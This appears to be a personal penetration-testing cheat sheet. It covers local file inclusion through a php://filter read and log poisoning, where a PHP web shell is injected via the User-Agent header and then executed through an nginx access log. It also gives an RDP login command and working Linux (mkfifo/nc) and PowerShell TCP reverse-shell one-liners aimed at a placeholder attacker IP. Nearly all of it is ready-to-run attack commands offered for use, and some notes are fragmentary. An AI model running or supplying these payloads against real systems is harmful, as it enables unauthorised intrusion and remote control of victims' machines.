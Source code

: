 # TOC
- LFI
- [Metasploit](#metasploit)
- [RDP](#rdp)
- [Reverse Shell](#reverse-shell)

# Memo
```
http://XXX.XXX.XXX.XXX:49550/index.php?page=php://filter/read=convert.base64-encode/resource=index

$ echo "~~~" | base64 -d | grep ".php"

access to : ilf_admin/index.php"

no ... ffuf -w -u http://XXX.XXX.XXX.XXX:49550/ilf_admin/index.php?log=FUZZ

$ sudo nmap XXX.XXX.XXX.XXX -p49550 -sV

http://XXX.XXX.XXX.XXX:49550/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log

 curl -s "http://XXX.XXX.XXX.XXX:49550/index.php" -A '<?php system($_GET["cmd"]); ?>'
 
http://XXX.XXX.XXX.XXX:49550/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log&cmd=id


http://XXX.XXX.XXX.XXX:47450/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log

<?php system($_GET["cmd"]); ?>

User-Agent: <?php system($_GET['cmd']); ?>


sudo ip link delete tun0
```

# RDP
```zsh
$ xfreerdp /v:XXX.XXX.XXX.XXX /u:hoge-user /p:hoge-password
```

# Reverse Shell
- Linux
```zsh
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc XXX.XXX.XXX.XXX 7777 > /tmp/f
```
- Windows  
one-liner
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('XXX.XXX.XXX.XXX',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
beautify  
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('XXX.XXX.XXX.XXX,443);
$stream = $client.GetStream();
```